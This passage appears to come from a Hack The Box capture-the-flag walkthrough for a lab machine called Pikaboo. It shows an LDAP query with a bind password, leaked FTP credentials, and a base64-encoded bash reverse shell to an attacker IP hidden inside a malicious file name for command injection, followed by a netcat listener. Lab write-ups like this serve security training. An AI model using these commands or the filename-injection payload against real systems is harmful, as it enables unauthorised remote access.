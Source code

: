 Get data from ftp domain
```bash
ldapsearch -x -h 127.0.0.1 -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g' -b 'dc=ftp,dc=pikaboo,dc=htb'
```

![](screenshots/ldap-dump.png)


ftp user creds: `pwnmeow:_G0tT4_C4tcH_'3m_4lL!_`

Create a file with reverse shell as it's name in the local direcotry.

```bash
❯ echo 'bash  -i  >&  /dev/tcp/10.10.14.44/4141  0>&1  ' | base64 -w 0
YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK
❯ touch -- '|echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK|base64 -d|bash;.csv'
❯ ls
'|echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC40NC80MTQxICAwPiYxICAK|base64 -d|bash;.csv'
```

Use `mput *` to upload file. User "pwnmeow" don't have permission to write in ftp root directory but there are bunch of sub directory where we can write.

after uploading file run netcat listener.

